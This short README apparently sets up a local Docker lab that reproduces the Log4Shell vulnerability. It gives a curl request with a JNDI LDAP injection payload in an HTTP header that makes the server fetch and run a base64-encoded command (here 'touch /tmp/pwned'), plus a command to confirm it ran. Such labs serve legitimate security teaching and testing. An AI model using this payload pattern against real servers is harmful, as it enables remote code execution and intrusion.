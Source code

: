 # Startup requirements

- curl 
- docker
  
---
# Startup command 

```
docker-compose up -d
```

# Exploit commands

Exploit call with the base 64 command appended to the ldap call ( this command will run `touch /tmp/pwned` on the victim server)

```
curl localhost:8088 -H 'X-Api-Version: ${jndi:ldap://host.docker.internal:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

Command to see the file being created by the ldap call

```
docker exec l4j ls /tmp
```